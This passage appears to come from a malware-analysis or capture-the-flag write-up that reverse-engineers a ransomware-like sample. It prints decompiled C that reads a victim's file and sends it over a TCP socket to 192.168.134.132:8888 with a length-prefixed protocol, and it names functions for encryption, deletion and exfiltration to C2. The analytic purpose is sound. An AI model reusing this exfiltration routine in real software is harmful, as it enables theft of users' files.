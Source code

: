 ```c
  
  if ( Buffer )
  {
    fread(Buffer, 1u, len, Stream);
    fclose(Stream);
    
    WSAStartup(0x202u, &WSAData);  // Initialize Winsock
    s = socket(2, 1, 0);            // Create TCP socket (AF_INET, SOCK_STREAM)
    if ( s == -1 )
    {
      puts("Socket creation failed");
      free(Buffer);
      WSACleanup();
      return 0xFFFFFFFFLL;
    }
    else
    {
      name.sa_family = 2;  // AF_INET = IPv4
      *(_WORD *)name.sa_data = htons(0x22B8u);  // Port number
      inet_pton(2, "192.168.134.132", &name.sa_data[2]);
```

**Converting the port number:** 
`0x22B8` in hex = 8888 in decimal

This matches the port we saw in the PCAP.

```c
      if ( connect(s, &name, 16) >= 0 )
      {
        buf[0] = HIBYTE(len);   // Most significant byte
        buf[1] = BYTE2(len);
        buf[2] = BYTE1(len);
        buf[3] = len;           // Least significant byte
        send(s, buf, 4, 0);     // Send 4-byte length header (big-endian)
        send(s, (const char *)Buffer, len, 0);  // Send file data
        printf("Sent %s (%ld bytes) to server\n", a1, len);
```

**This explains the network protocol:** First, send 4 bytes containing the file size. Then send the actual file data. This matches what we'll see in the PCAP streams.

Let's rename these functions:
- `sub_001DE1` to `encrypt_user_file`
- `sub_00183D` to `delete_original_file`
- `sub_001AEB` to `exfiltrate_to_c2`

### The Core Encryption Function: sub_001668

```c
__int64 __fastcall sub_001668(__int64 a1, int a2, __int64 a3, __int64 a4, unsigned __int64 a5)
{
  __int64 v6;
  _BYTE v7[256];  // 256-byte array!

  sub_00148C(a1, a2, (__int64)(&v6 + 4));
  sub_001558((__int64)v7, a3, a4, a5);
  return 0;
}
```
